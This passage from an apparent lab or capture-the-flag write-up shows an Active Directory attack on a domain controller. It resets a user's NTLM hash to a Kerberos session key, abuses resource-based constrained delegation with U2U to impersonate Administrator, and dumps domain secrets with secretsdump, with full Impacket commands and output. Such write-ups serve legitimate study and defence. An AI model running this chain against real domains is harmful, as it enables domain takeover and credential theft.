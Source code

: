 Now let's change the user's password once more to match the hash of the ticket session key that we just received.

```
└─$ impacket-smbpasswd -newhashes :4abd87ab347a96df9a497689a79bfd5c phantom.vl/crose:'Password123@'@dc.phantom.vl
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

===============================================================================
  Warning: This functionality will be deprecated in the next Impacket version  
===============================================================================

[*] NTLM hashes were changed successfully.
```

Now that the NTLM hash was set with the same value of our ticket session key, we should be able to use RBCD as intended.

```
└─$ impacket-rbcd -delegate-from 'crose' -delegate-to 'DC$' -dc-ip 10.10.103.169 -action 'write' 'phantom.vl'/'crose' -hashes :4abd87ab347a96df9a497689a79bfd5c
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] crose can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     crose        (S-1-5-21-4029599044-1972224926-2225194048-1126)
```

Now that the account is able to delegate on behalf of the DC, we can request a service ticket as we normally would with our controlled user. The only difference here is that we'll use the `-u2u` option so that the KDC interprets our login attempt as a domain user authentication attempt. We'll also impersonate the Administrator account so that we can dump the secrets of the domain controller.

Make sure to set your Kerberos global authentication variable to the `crose` ticket that we produced earlier.

```
└─$ export KRB5CCNAME=crose.ccache

└─$ impacket-getST -u2u -impersonate Administrator -spn 'cifs/dc.phantom.vl' -k -no-pass phantom.vl/'crose'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Impersonating Administrator
[*] Requesting S4U2self+U2U
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.phantom.vl@PHANTOM.VL.ccache
```

Now that we have a service ticket for the Administrator user, we can dump the secrets of the domain controller with `impacket-secretsdump`.

```
└─$ export KRB5CCNAME=Administrator@cifs_dc.phantom.vl@PHANTOM.VL.ccache

└─$ impacket-secretsdump -k dc.phantom.vl
......
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[...snip...]:::
```
